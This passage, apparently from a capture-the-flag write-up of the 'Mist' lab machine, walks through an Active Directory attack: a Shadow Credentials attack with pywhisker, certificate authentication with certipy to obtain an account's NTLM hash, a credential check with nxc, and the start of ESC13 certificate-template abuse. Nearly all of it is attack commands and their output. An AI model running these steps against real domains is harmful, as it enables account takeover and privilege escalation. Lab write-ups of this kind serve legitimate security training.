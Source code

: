 Ok now perform ShadowCreds attack :

```bash
proxychains -q python3 pywhisker.py -d "DC01.mist.htb" -u 'svc_ca$' -H :e2[...]d5 --target 'svc_cabackup' --action "add"  --dc-ip 192.168.100.100 --use-ldaps
[*] Searching for the target account
[*] Target user found: CN=svc_cabackup,CN=Users,DC=mist,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: bd2ec770-b661-700b-4a92-642a57f5ea95
[*] Updating the msDS-KeyCredentialLink attribute of svc_cabackup
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: We9ACgPN.pfx
[*] Must be used with password: aD9diG7PmWltJg1xQz28
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools

certipy cert -pfx We9ACgPN.pfx  -password aD9diG7PmWltJg1xQz28 -export -out  svc_cabackup.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing PFX to 'svc_cabackup.pfx'

proxychains certipy auth -pfx  svc_cabackup.pfx -dc-ip 192.168.100.100 -domain mist.htb -username svc_cabackup

[*] Got hash for 'svc_cabackup@mist.htb': aad3b435b51404eeaad3b435b51404ee:c98[...]64
```
Ok nice test creds :

```bash
proxychains -q nxc ldap 192.168.100.100 -u 'svc_cabackup' -H 'c9[...]64' 
SMB         192.168.100.100 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:mist.htb) (signing:True) (SMBv1:False)
LDAP        192.168.100.100 389    DC01             [+] mist.htb\svc_cabackup:c9[...]64
```
## ESC13 
Ok now we gonna abuse ESC13, for this we can use [this PR](https://github.com/ly4k/Certipy/pull/196)

```bash
proxychains -q python3 entry.py find -u "OP_SHARON.MULLARD" -p 'REDACTED' -dc-ip 192.168.100.100 -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Authenticating to LDAP server
[+] Bound to ldaps://192.168.100.100:636 - ssl
[+] Default path: DC=mist,DC=htb
[+] Configuration path: CN=Configuration,DC=mist,DC=htb
[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 14 enabled certificate templates
[*] Finding issuance policies
[*] Found 1 issuance policy
[*] Found 2 OIDs linked to templates
[+] Trying to resolve 'DC01.mist.htb' at '192.168.100.100'
[*] Trying to get CA configuration for 'mist-DC01-CA' via CSRA
[+] Trying to get DCOM connection for: 192.168.100.100
[!] Got error while trying to get CA configuration for 'mist-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'mist-DC01-CA' via RRP
[+] Connected to remote registry at 'DC01.mist.htb' (192.168.100.100)
[*] Got CA configuration for 'mist-DC01-CA'
[+] Resolved 'DC01.mist.htb' from cache: 192.168.100.100
```